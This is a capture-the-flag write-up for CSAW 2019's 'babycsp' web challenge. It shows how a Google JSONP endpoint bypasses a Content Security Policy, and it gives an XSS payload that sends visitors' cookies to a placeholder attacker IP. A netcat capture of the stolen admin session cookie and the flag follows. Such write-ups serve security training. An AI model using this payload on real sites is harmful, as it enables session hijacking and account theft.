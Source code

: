 # babycsp

Category: `web`

Description: `I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer? The flag is in the cookies`

Service: `http://web.chal.csaw.io:1000`

Points: `50`

**Files**
- [dist](files/dist/)

### What It Does

This is on XSS and CSP bypass. We have to craft a XSS payload that bypasses CSP and captures the cookies of visitors. Then, make the admin view the post.

The CSP in place is `default-src 'self'; script-src 'self' *.google.com; connect-src *`.

![Main website](img/babycsp_main.png)

Errors can be easily checked in the browser developer console.

![CSP errors](img/babycsp_csp_errors.png)

### How to Solve

Javascript from `google.com` is allowed. We can use a JSONP endpoint from `google.com` to bypass CSP.

A list of JSONP endpoints can be found [here](https://github.com/zigoo0/JSONBee).

One of the JSONP endpoint for `google.com`:
```
https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)
```

By redirecting the browser of users who visit the post to our server to request for a file specified by their browser cookies, we can capture their cookies.

```javascript
window.location.replace('http://your.ip/'+document.cookie)
```

URL encode the javascript payload to pass it to the JSONP endpoint.

Replace the IP and post the following payload:

```html
<script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace('http://your.ip/'%2Bdocument.cookie)"></script>
```

Start the HTTP server, then report the post to the admin. Wait for the admin to visit the post to capture the cookies.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ sudo nc -nlvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 216.165.2.60 40978 received!
GET /session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI;%20flag=flag%7Bcsp_will_solve_EVERYTHING%7D HTTP/1.1
Host: 58.96.212.212
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:5000/post?id=20120
Upgrade-Insecure-Requests: 1

^C
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ 
```

URL decode the cookies to get the flag.

```shellsession
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ python -c 'import urllib; print urllib.unquote_plus("session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI;%20flag=flag%7Bcsp_will_solve_EVERYTHING%7D")'
session=eyJ1dWlkIjp7IiBiIjoiWW05MGRYTmxjZz09In19.XXzRgQ.rbSfoiP8FirHTtqZ1kpTKvbb3GI; flag=flag{csp_will_solve_EVERYTHING}
ubuntu@ubuntu-bionic:/ctf/2019/csaw_ctf_quals/web$ 
```

**Flag: `flag{csp_will_solve_EVERYTHING}`**